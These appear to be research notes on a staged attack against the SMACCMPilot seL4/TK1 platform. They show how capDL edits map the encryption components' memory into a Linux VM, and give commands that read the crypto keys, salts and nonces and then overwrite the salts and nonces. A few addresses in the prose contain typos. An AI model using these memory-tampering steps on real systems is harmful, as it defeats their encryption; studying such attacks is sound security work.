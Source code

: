 These notes describe how the attack is constructed


Modifying the VM
================

The goal is to overwrite the nonce and salt for the encryption and
decryption functions. We accomplish this by mapping the relevant pages
of memory into the memory space of the VM. First we modify the VM to
tell it that we are inserting two extra pages to be loaded at a
specific memory address (we picked `0xd000000` somewhat arbitrarily).
To do this, run `make menuconfig` and select the option `Use hacked VM
configuration` under the smaccmpilot-tk1 application. Then recompile
the TK1 image.


Modifying the capDL file
========================

First we need to locate the memory where encryption information is
stored. The relevant data is in `build/arm/tk1/smaccmpilot-tk1` in the
binaries:

  - `Decrypt_inst_group_bin`
  - `Encrypt_inst_group_bin`

We start by looking at the memory for the decoder:
```
arm-none-eabi-objdump -x Decrypt_inst_group_bin
```

The crypto information is stored in the C variable
`ctx_dl_global_gec_sym_key_dec` which we can locate in the symbol
table from objdump:

```
00134478 l     O .bss	00001128 ctx_dl_global_gec_sym_key_dec
```

This means the variable will be at the virtual memory address
`0x00134478`. That means it's at offset `0x478` in page `0x134`. But,
this variable points to a rather large structure and it turns out the
information we want will actually spill on to the next page. So we
want to map page `0x135` into the VM memory space.

To do this we modify the `smaccmpilot.cdl` file located in the same
directory as the binaries. Here we find the page table for
`Decrypt_inst_group_bin`:

```
Decrypt_inst_group_bin_pd {
0x0: pt_Decrypt_inst_group_bin_0000
0x1: pt_Decrypt_inst_group_bin_0003
}
```

Each page table represents 2mb so the page table at 0x0 has entries
for addresses in the 0x00000000 - 0x02000000 range which covers the
address we are interested in (0x01350000). In particular, we want to
find the frame mapped at `0x135` in that page table:

```
pt_Decrypt_inst_group_bin_0000 {
...
0x135: frame_Decrypt_inst_group_bin_0065 (RWX)
...
}
```

First we need to mark this page as uncached since the Linux VM treats
it as uncached. We do this by adding the `uncached` attribute:

```
pt_Decrypt_inst_group_bin_0000 {
...
0x135: frame_Decrypt_inst_group_bin_0065 (RWX, uncached)
...
}
```

Then, we need to insert this frame into the cnode for the vm. We need
to leave one empty cnode and then place it in the next available slot:

```
Virtual_Machine_inst.vm_obj_cnode {
...
0x2a: Virtual_Machine_inst.vm_obj_irq_63
0x2b: Virtual_Machine_inst.vm_obj_irq_122
0x2d: frame_Decrypt_inst_group_bin_0065 (RWX)
...
}
```

We now repeat this process for Encrypt_inst_group_bin:

```
arm-none-eabi-objdump -x Encrypt_inst_group_bin
```

The relevant variable is `ctx_dl_global_gec_sym_key_enc` which we can
find in the symbol table:

```
00136548 l     O .bss	00001128 ctx_dl_global_gec_sym_key_enc
```

The virtual memory address is `0x00136548` which is page `0x136` with
offset `0x548`. Again the information we actually want will spill onto
the next page at `0x137`. Looking at the page table:

```
Encrypt_inst_group_bin_pd {
0x0: pt_Encrypt_inst_group_bin_0000
0x1: pt_Encrypt_inst_group_bin_0003
}
```

We see that we want offset `0x137` in `pt_Encrypt_inst_group_bin_0000` which is:

```
pt_Encrypt_inst_group_bin_0000 {
...
0x137: frame_Encrypt_inst_group_bin_0289 (RWX)
...
}
```

First we mark this as `uncached`:

```
pt_Encrypt_inst_group_bin_0000 {
...
0x137: frame_Encrypt_inst_group_bin_0289 (RWX, uncached)
...
}
```

We then add this to the VM's cnode:

```
Virtual_Machine_inst.vm_obj_cnode {
...
0x2a: Virtual_Machine_inst.vm_obj_irq_63
0x2b: Virtual_Machine_inst.vm_obj_irq_122
0x2d: frame_Decrypt_inst_group_bin_0065 (RWX)
0x2e: frame_Encrypt_inst_group_bin_0289 (RWX)
...
}
```

Now recompile and ensure that the cdl file is not overwritten by the
build process.


Finding the key, salt, and nonce in the VM
==========================================

Now we can boot the TK1 and try to locate the key, salt, and nonce for
both the decrypt and encrypt components. Within the VM, the pages we
mapped in are available at the memory range 0xd0000000 - 0xd002000.
Data 61 has provided the rw_mem.c tool in this repository which we can
use to read and modify memory.

First we can locate the keys since we know exactly what they are. To
read the memory we mapped in, do:

```
make read
```

And searching for the keys finds

```
0xd00004c0: 0xfe 0x45 0x2e 0x54 0x20 0xbf 0xb4 0x21 0x18 0x17 0x16 0x15 0x14 0x13 0x12 0x11 
0xd00004d0: 0x10 0x0f 0x0e 0x0d 0x0c 0x0b 0x0a 0x09 0x32 0x70 0x17 0xeb 0x26 0x63 0x05 0xfa
...
0xd0001590: 0x59 0x71 0x2b 0xaf 0xcf 0xf2 0xab 0x24 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 
0xd00015a0: 0x09 0x0a 0x0b 0x0c 0x0d 0x0e 0x0f 0x10 0xab 0x74 0xc9 0xd3 0xae 0x72 0xce 0xdb 
```

Thus the keys are at 0xd00004c8 and 0xd0001598. A make target is
available to read these keys:

```
root@tk1:~/vm_hack# make read-keys
./rw_mem -a 0xd00004c8 -s 16
0xd00004c8: 0x18 0x17 0x16 0x15 0x14 0x13 0x12 0x11 0x10 0x0f 0x0e 0x0d 0x0c 0x0b 0x0a 0x09 
./rw_mem -a 0xd0001598 -s 16
0xd0001598: 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 0x09 0x0a 0x0b 0x0c 0x0d 0x0e 0x0f 0x10 
```

We can also find the salts by searching for them directly:

```
0xd0000580: 0x00 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x08 0x07 0x06 0x05 
0xd0000590: 0x04 0x03 0x02 0x01 0x00 0x00 0x00 0x00 0x00 0x79 0x0c 0x00 0x00 0x00 0x00 0x00 
...
0xd0001650: 0x00 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x11 0x12 0x13 0x14 
0xd0001660: 0x15 0x16 0x17 0x18 0x00 0x00 0x00 0x00 0x79 0x0c 0x00 0x00 0x00 0x00 0x00 0x00
```

Thus the salts are at 0xd00058c and 0xd000165c. A make target is
available to read these salts:

```
root@tk1:~/vm_hack# make read-salts
./rw_mem -a 0xd000058c -s 8
0xd000058c: 0x08 0x07 0x06 0x05 0x04 0x03 0x02 0x01 
./rw_mem -a 0xd000165c -s 8
0xd000165c: 0x11 0x12 0x13 0x14 0x15 0x16 0x17 0x18 
```

Finding the nonces is tricker because they are initially all zero so
we can't just search for them. Instead we save the results of `make
read` over several requests to the odroid and diff the resulting files
to find the nonce. After doing 4758 requests we can find the nonces here:


```
0xd0000590: 0x04 0x03 0x02 0x01 0x00 0x00 0x00 0x00 0x00 0x96 0x12 0x00 0x00 0x00 0x00 0x00 
0xd00005a0: 0x00 0x00 0x12 0x95 0x07 0x14 0xa5 0x56 0x62 0x19 0x88 0x89 0x37 0xbe 0x64 0xaf
...
0xd0001660: 0x15 0x16 0x17 0x18 0x00 0x00 0x00 0x00 0x96 0x12 0x00 0x00 0x00 0x00 0x00 0x00 
0xd0001670: 0x00 0x00 0x00 0x00 0x01 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 
```

The nonce is a uint64 stored in little endian format. The nonces are
at 0xd0000599 and 0xd0001668. A make target is available to read these
nonces:

```
root@tk1:~/vm_hack# make read-nonces
./rw_mem -a 0xd0000599 -s 8
0xd0000599: 0x96 0x12 0x00 0x00 0x00 0x00 0x00 0x00 
./rw_mem -a 0xd0001668 -s 8
0xd0001668: 0x96 0x12 0x00 0x00 0x00 0x00 0x00 0x00
```

Now the attack simply overwrites the salts with the attacker's salts
(all zeros) and resets the nonces to zero so that the attacker can
syncronize with the Odroid. A make target is available to do these
overwrites:

```
root@tk1:~/vm_hack# make hack
./rw_mem -a 0xd000058c -s 8 -w -h 0x00
./rw_mem -a 0xd000165c -s 8 -w -h 0x00
./rw_mem -a 0xd0000599 -s 8 -w -h 0x00
./rw_mem -a 0xd0001668 -s 8 -w -h 0x00
```
